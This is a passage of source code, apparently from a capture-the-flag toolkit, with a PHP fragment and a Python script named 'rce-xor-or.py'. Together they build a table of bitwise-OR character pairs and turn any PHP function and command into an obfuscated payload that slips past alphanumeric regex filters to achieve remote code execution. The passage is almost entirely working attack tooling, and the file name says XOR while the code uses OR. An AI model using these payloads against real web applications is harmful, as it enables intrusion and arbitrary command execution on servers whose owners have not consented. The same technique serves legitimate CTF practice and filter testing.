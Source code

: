 ```php
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
            echo "";
        }

        else{
            $a='%'.$hex_i;
            $b='%'.$hex_j;
            $c=(urldecode($a)|urldecode($b));
            if (ord($c)>=32&ord($c)<=126) {
                $contents=$contents.$c." ".$a." ".$b."\n";
            }
        }

    }
}
fwrite($myfile,$contents);
fclose($myfile);
```


**rce-xor-or.py:**
```python
import requests
import urllib
from sys import *
import os


def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("res_xor.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"|\"" + s2 + "\")"
    return (output)


while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command：")) + ";"
    print(param)
```

